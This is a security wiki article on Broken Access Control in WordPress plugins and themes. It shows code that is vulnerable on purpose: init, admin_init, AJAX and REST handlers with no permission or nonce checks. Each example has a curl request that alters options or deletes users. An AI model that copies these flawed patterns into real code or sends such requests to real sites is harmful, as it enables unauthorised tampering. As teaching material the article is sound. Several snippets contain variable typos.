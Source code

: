 ```yaml
---
title: Broken Access Control
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible Broken Access Control on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to access or update sensitive information.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/wordpress/wordpress-internals/functions/#current_user_can) function and the nonce value check using [`wp_verify_nonce`](/wordpress/wordpress-internals/functions/#wp_verify_nonce), [`check_admin_referer`](/wordpress/wordpress-internals/functions/#check_admin_referer) or [`check_ajax_referer`](/wordpress/wordpress-internals/functions/#check_ajax_referer) functions.


## `init` hook

For more details on the `init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#init-hook).

Example of vulnerable code:

```php
add_action("init", "check_if_update");

function check_if_update(){
    if(isset($_GET["update"])){
        update_option("user_data", sanitize_text_field($_GET_["data"]));
    }
}
```

To exploit this, an unauthenticated user just needs to visit the front page of a WordPress site and specify the parameter to trigger the `update_option` function which in this case will modify sensitive information.

```bash
curl <WORDPRESS_BASE_URL>/?update=1&data=test
```

## `admin_init` hook

For more details about the `admin_init` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#admin_init-hook).

Example of vulnerable code:

```php
add_action("admin_init", "delete_admin_menu");

function delete_admin_menu(){
    if(isset($_POST_["delete"])){
        delete_option("custom_admin_menu");
    }
}
```

To exploit this, the unauthenticated user just needs to perform a POST request to the `admin-ajax.php` and `admin-post.php` endpoints specifying the needed parameter to trigger the `delete_option` function to remove sensitive data.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat -d "delete=1"
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#wp_ajax_action-hook).

Example of vulnerable code:

```php
add_action("wp_ajax_update_post_data", "update_post_data");

function update_post_data(){
    if(isset($_POST_["update"])){
        $post_id = get_post($_GET["id"]);
        update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
    }
}
```

To exploit this, any authenticated user (**Subscriber+** role) just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_post_meta` function to update arbitrary WP Post metadata.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=update_post_data&update=1 -d "id=1&data=changed"
``` 

## [`wp_ajax_nopriv_{$action}`](https://developer.wordpress.org/reference/hooks/wp_ajax_nopriv_action/) hook

For more details on the `wp_ajax_nopriv_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/hooks/#wp_ajax_nopriv_action-hook).

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_toggle_menu_bar", "toggle_menu_bar");

function toggle_menu_bar(){
    if ($_POST_["toggle"] === "1"){
        update_option("custom_toggle", 1);
    }
    else{
        update_option("custom_toggle", 0);
    }
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `update_option` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=toggle_menu_bar -d "toggle=1"
``` 

## `register_rest_route` function

For more details on the `register_rest_route` function, please refer to this [documentation](/wordpress/wordpress-internals/functions/#register_rest_route-function).

Sometimes, developers don't implement a proper permission check on the custom REST API route and use the `__return_true` string as the permission callback. This makes the custom REST API route to be publicly accessible.

```php
add_action( 'rest_api_init', function () {
  register_rest_route( 'myplugin/v1', '/delete/author', array(
    'methods' => 'POST',
    'callback' => 'delete_author_user',
    'permission_callback' => '__return_true',
  ) );
} );

function delete_author_user($request){
    $params = $request->get_params();
    wp_delete_user(intval($params["user_id"]));
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-json/myplugin/v1/delete/author` endpoint specifying the needed parameter to trigger the `wp_delete_user` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-json/myplugin/v1/delete/author -d "user_id=1"
``` 

Other cases could exist where developers already specify a proper function on the `permission_callback` parameter, however, the permission check implemented inside the function itself is not proper to what process can be done from the REST API route `callback` function.